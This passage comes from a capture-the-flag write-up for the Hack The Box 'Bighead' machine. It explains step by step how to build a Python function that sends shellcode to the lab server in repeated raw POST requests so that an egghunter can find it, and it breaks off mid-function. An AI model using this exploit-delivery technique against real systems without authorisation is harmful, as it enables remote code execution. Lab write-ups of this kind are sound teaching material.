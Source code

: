 ![](/images/hackthebox/bighead/79.png)
<br> Note : there's a variable called `N`, that will come later and it has nothing to do with the exploit itself.
<br> Now we need to create two functions. First one is to send the shellcode through a POST request, The other one is to exploit the vulnerability and send the egghunter. 
<br> We will start by defining the function :
`def send_shellcode(N,host,port,egg,shellcode):`
<br> Then we will open a TCP stream socket to the server and the port and hold it in a variable called `s` :
`s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)`
<br> Last thing to do is to send the POST request with the shellcode :
```
s.send("POST / HTTP/1.1\r\n")
s.send("Host: dev.bighead.htb\r\n")
s.send("Content-Length: %s\r\n"%len(shellcode))
s.send("\r\n")
s.send(shellcode+"\r\n")
s.send("\r\n")
```
<br> Then we will close the stream :
`s.close()`
<br> I added this in a `for` loop to send the shellcode 16 times. I did this because I wanted to put the shellcode in different places so the egghunter finds it easily. I also added a print statement at the start of the function : `print "\033[32m [*] Sending Shellcode"`, `\033[32m` is for the color it's not important for the exploit. And I added a print statement before closing the stream : `print '\033[34m' + '[' + str(N) + '] ' + re.sub(r"\s"," ",s.recv(12))`. `re.sub(r"\s"," ",s.recv(12))` This will use `re` (regular expressions operations) to print the first 12 chars of the first line of the server response ("HTTP/1.1" + " " + status code (3 chars) = 12).
`send_shellcode` :
```
def send_shellcode(N,host,port,egg,shellcode):
	print "\033[32m [*] Sending Shellcode"
```